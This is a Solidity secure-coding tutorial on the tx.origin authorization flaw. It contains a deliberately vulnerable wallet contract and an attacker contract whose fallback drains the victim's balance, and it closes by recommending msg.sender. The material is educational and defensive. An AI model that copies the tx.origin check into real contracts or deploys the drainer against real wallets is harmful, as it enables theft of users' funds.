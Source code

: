 ## Authorization Through tx.origin

`tx.origin` is a global variable in Solidity which returns the address that sent a transaction. It's important that you never use `tx.origin` for authorization since another contract can use a fallback function to call your contract and gain authorization since the authorized address is stored in `tx.origin`. Consider this example:

```solidity

// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

// THIS CONTRACT CONTAINS A BUG - DO NOT USE
contract TxUserWallet {
    address owner;

    constructor() public {
        owner = msg.sender;
    }

    function transferTo(address payable dest, uint amount) public {
        require(tx.origin == owner);
        dest.transfer(amount);
    }
}
```

Here we can see that the `TxUserWallet` contract authorizes the `transferTo()` function with `tx.origin`. 

```solidity

// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

interface TxUserWallet {
    function transferTo(address payable dest, uint amount) external;
}

contract TxAttackWallet {
    address  private  owner;

    // Constructor sets the contract deployer as the owner
    constructor() {
        owner = msg.sender;
    }

    // fallback function to receive Ether and trigger transfer

    fallback() external payable {
        // Call transferTo on the sender's TxUserWallet to send its balance to owner
        TxUserWallet(msg.sender).transferTo(owner, msg.sender.balance);
    }
}
```

Now if someone were to trick you into sending ether to the `TxAttackWallet` contract address, they can steal your funds by checking `tx.origin` to find the address that sent the transaction.

To prevent this kind of attack, use `msg.sender` for authorization.

Examples from: https://solidity.readthedocs.io/en/develop/security-considerations.html#tx-origin

### Sources

- [SWC-115](https://swcregistry.io/docs/SWC-115)
- [Solidity Security Considerations - tx.origin](https://solidity.readthedocs.io/en/develop/security-considerations.html#tx-origin)
- [Consensys Smart Contract Best Practices - tx.origin](https://consensys.github.io/smart-contract-best-practices/development-recommendations/solidity-specific/tx-origin/)
- [SigP Solidity Security Blog - tx.origin](https://github.com/sigp/solidity-security-blog#tx-origin)
